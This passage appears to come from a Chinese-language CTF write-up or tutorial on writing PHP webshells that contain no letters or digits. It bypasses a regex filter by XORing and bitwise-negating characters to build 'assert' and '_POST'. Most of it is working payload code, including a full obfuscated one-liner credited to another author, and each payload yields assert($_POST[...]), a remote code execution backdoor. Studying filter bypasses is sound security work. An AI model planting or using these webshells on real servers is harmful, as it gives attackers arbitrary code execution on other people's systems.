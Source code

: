 ```
function judge($c)
{
    if(!preg_match('/[a-z0-9]/is',$c))
    {
        return true;
    }
    return false;
}
```

得到可以异或得到我们想要的字符的两个字符串。

```
<?php
$_ = "!((%)("^"@[[@[\\";   //构造出assert
$__ = "!+/(("^"~{`{|";   //构造出_POST
$___ = $$__;   //$___ = $_POST
$_($___[_]);   //assert($_POST[_]);
```

#### 解法二：取反

原理： **求反运算符～为单目运算符，具有右结合性。其功能是对参与运算的数的各二进位按位求反。
负数用十六进制表示，通常用的是补码的方式表示。负数的补码是它本身的值每位求反,最后再加一**

利用的是UTF-8编码的某个汉字，并将其中某个字符取出来。

参考[p神文章](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html#)，

拿`和`字来说

```
<?php
$_="瞰";
$a = ~($_{1});  // a
$b = ~($_{2});  // O
echo $a.'<br/>'.$b;
```

![wP3wh8.png](https://s1.ax1x.com/2020/09/03/wP3wh8.png)

```
"和" 的第三个字节的值为 140[0x8c]，取反的值为 -141
'和'{2}的结果是"\x8c"，其取反即为字母s：
```

附上ph师傅的payload:

```
<?php
$__=('>'>'<')+('>'>'<');    //$__2
$_=$__/$__;                 //$_1
 
$____='';
$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});       //$____=assert
 
$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});     //$_____=_POST 
 
$_=$$_____;        //$_=$_POST
$____($_[$__]);    //assert($_POST[2])
?>

```
